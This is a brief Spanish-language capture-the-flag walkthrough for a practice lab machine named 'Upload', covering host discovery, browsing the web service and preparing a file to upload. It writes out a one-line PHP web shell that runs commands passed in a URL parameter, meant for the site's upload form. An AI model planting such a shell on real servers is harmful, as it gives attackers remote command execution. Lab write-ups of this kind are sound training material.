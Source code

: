 #### INFORMACION DE LA MAQUINA.
#### Maquina Upload.
[LINK DE LA MAQUINA](https://mega.nz/file/pOdwgYbB#8lTyf-mWFNq7xvKWObKUV9gkrZj3nzhuHVlGQmnZ6BQ)
#### Dificultad: Muy facil.

---

Enviamos un ping de un paquete para comprobar que la maquina esta activa y lista.
```Linux
Ping -c 1 172.17.0.2
```

Encontraremos el puerto 80 web abierto, por lo cual iremos al buscador y vamos a la pagina.
```Firefox
https://172.17.0.2:80
```
En la pagina se pueden subir archivos asi que vamos a intentar intruir con algun archivo malicioso.
```Linux                                
<?php 
system($_GET[' cmd ']); 
?>
```

